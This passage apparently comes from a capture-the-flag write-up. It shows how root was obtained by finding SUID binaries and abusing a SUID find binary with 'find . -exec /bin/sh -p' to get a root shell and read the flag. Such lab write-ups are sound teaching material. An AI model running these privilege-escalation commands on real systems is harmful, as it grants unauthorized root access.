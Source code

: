 > What is the root flag?

Since we need to get access to root flag, and _zeamkish_ is not in sudoers, we need to find a way to execute root commands and retrieve the flag.

Good idea is to run:

```bash
find / -perm -4000 2>/dev/null
```

And then combine it with GTFOBins search; in fact what we found is that we can abuse of 

```
/usr/bin/find
```

In this way:

```bash
find . -exec /bin/sh -p \; -quit
cat /root/flag.txt
```

Get the second Flag


#nmap #enumeration #gobuster #sqlmap #suid #linpeas #gtfobins #find #revshell #reverseshell #fileupload #burp

